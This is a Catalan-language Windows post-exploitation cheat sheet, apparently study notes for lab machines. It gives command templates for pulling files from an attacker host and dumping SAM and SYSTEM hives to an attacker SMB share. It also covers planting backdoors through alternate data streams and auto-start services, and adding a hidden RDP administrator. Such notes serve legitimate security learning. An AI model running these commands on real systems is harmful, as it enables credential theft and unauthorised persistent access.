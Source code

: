 ## Utilities
##### File Transfer
```bash
# HTTP
python -m http.server [port] # Atacant
certutil -f -urlcache http://[ip]:[port]/[file] [output] # Víctima

# SMB
impacket-smbserver [folder] $(pwd) -smb2suport # Atacant
copy \\[ip]\[folder]\[file] [output] # Víctima
```
##### UAC Bypass
L'_User Access Control_ és un panell de confirmació d'execució amb privilegis, i d'introducció de credencials d'administrador si s'escau. Té diferents nivells de seguretat, de baix fins a alt, i hi ha tècniques per poder esquivar-lo, sempre que es tingui accés amb un usuari dins el grup d'administradors.

Per aquesta tècnica, s'utilitza l'eina [UACMe](https://github.com/hfiref0x/UACME) o i es pot trobar una demostració a la màquina [Napper](https://www.youtube.com/watch?v=yKNxdxixfHg) de HTB.
## Local enumeration
--> **Hostname, OS Name, OS Build, Service Pack, OS architecture & hotfixes**
```
systeminfo
wmic qfe get Caption,Description,HotFixID,InstalledOn
C:/Windows/System32/eula.txt
```
--> **Current user & privileges, user info, other users, groups, members of the admin group**
```
whoami [/priv]
query user
net users
net user [user]
net localgroup [group]
```
--> **IP, Network Adapter, Internal Networks, TCP/UPD services, hosts, routing, firewall**
```
ipconfig /all
route print
arp -a 
netstat -ano
netsh advfirewall show allprofiles
```
--> **Processes, services, scheduled tasks**
```
tasklist /v | findstr [process]
net start
wmic service list brief
tasklist /SVC
schtasks /query /fo /v LIST
```
> Es pot automatitzar aqauesta enumeració amb [JAWS](https://github.com/411Hall/JAWS) o [WinPEAS](https://github.com/peass-ng/PEASS-ng/blob/master/winPEAS/winPEASexe/README.md).
## Privilege escalation
##### Kernel exploits
El kerne és el "sistema nerviós central" del Sistema Operatiu. Fa la funció de traducció entre el hardware i el software del dispositiu, i té control sobre els recursos i el hardware del sistema. En el cas de windows, el kernel és Windows NT i té dos modes, per qüestions de seguretat: User Mode, amb accés limitat, i System Mode, amb accés total.

All llarg dels anys, han anat sortit diferents vulnerabilitats que afecten al kernel de Windows i que, per tant, permetrien augmentar els privilegis de l'atacant al nivell del sistema. L'enumeració manual de totes les vulnerabilitats és massa tediosa, així que se sol utilitzar [sherlock.ps1](, [PowerUp](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1), [PowerUP](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1) o [WinPEAS](https://github.com/peass-ng/PEASS-ng/blob/master/winPEAS/winPEASexe/README.md).
##### Access Token Impersonation
Els Access Token, creats per LSASS, són un element clau del procés d'autenticació de Windows. Serveixen per identificar el context de seguretat i privilegis d’un procés o tasca corrent al sistema, és a dir, com una mena de cookie associada a l’usuari que permet accedir al procés sense haver de proporcionar credencials cada cop. N'hi ha de dos tipus:
- **Impersonate-level:** permet a un procés o thread assumir temporalment la identitat d'un altre usuari. 
- **Delegate-level:** mateixa funció que el impersonate-level però permet passar les credencials a altres sistemes de la xarxa.
La condició principal per a que pugui donar-se el Access Token Impersionation és que hi hagi un dels següents tokens activats: **SeAssignPrimaryToken, SeCreateToken** o **SeImpersonatePrivilege**

Les eines emprades en aquesta tècnica són [FullPowers](https://github.com/itm4n/FullPowers) i [PrintSpoofer.exe](https://github.com/dievus/printspoofer).
##### Config files
Quan un sysadmin configura diversos equips a la vegada, té la possibilitat d'utilitzar una "Unattended Installation", una instal·lació en massa de tots els sistemes amb la mateixa configuració. 

Aquesta instal·lació deixa, posteriorment, un arxiu amb les credencials de l'Administrador que s'han utilitzat per la instal·lació, en text pla o en base64. La localització normal d'aquest arxiu és _C:\Windows\Panther\Unattend.xml_.

> La Santa Bíblia del PrivEsc a Windows: [Windows PrivEsc](https://swisskyrepo.github.io/InternalAllTheThings/redteam/escalation/windows-privilege-escalation/).
## Persistence
##### Alternate Data Streams
Els ADS són un atribut de NTFS (_New Technology File System)_ dissenyat per proporcionar compatibilitat amb MacOS. Permet emmagatzemar metainformació amb un fitxer dins el propi fitxer. Serveix per amagar codi maliciós en les metadades d'arxius legítims, evadint la detecció de l'antivirus i d'un escaneig.
```bash
# exemple d'arxiu de text amb el backdoor a la metadata
notepad.exe [file]:[backdoor]
mklink [program] [file]:[backdoor] # executar backdoor quan s'executi el programa
```
##### Pass-the-hash
És l'ús de hashes NTLM sense crackejar per autenticar-se al servei objectiu. No és ben bé una explotació del servei sinó una funcionalitat, així que tot i que sigui una vulnerabilitat coneguda seguirà podent utilitzar-se en actualitzacions futures. Per extreure els hashes NTLM de la màquina víctima es necessiten privilegis d'administrador, ja que s'ha d'interactuar amb els registres de Windows SAM y SYSTEM. Es pot fer de les següents maneres:
```bash
# Manualment: 
# A la màquina víctima
reg save HKLM\sam [file]
reg save HKLM\system [file2]
# A la màquina atacant
impacket-smbserver [folder] $(pwd) -smb2support
# A la màquina víctima
copy [file(2)] \\[ip-atacant]\[folder]\[output-file]

# crackmapexec
crackmapexec smb -u [user] -p [pass] --sam

# mimikatz (binari pujat a la màquina víctima)
lsa_dump_sam
```
##### Services
Amb privilegis d'administrador, és possible crear un servei que s'executi de forma arbitrària en certes ocasions, per exemple a l'arrencada del sistema. Aquest servei hauria de contenir el backdoor que pogués estaular una consola interactiva al nostre host.
```powershell
New-Service -Name "Backdoor" -BinaryPathName "C:\Windows\Temp\backdoor.exe" -Description "Nothing to see here." -StartupType Automatic \ sc start Backdoor
```
##### RDP
Encara que no estigui activat, un cop a dins de la màquina víctima i amb privilegis d'administrador és possible obrir el servei de RDP i crear un usuari propi per poder accedir-hi.
```bash
# Atacant
crackmapexec -u [user] -p [pass] -M rdp --action=enable # Obrir RDP

# Víctima
net user [user] [pass] /add # Crear nou usuari
net localgroup Administrators [user] /add # Donar privilegis d'admin a l'usuari
net localgroup "Remote Desktop Users" [user] /add # Poder accedir amb RDP
```
> La Santa Bíblia de la persistència a Windows: [Windows Persistence](https://swisskyrepo.github.io/InternalAllTheThings/redteam/persistence/windows-persistence/).
 
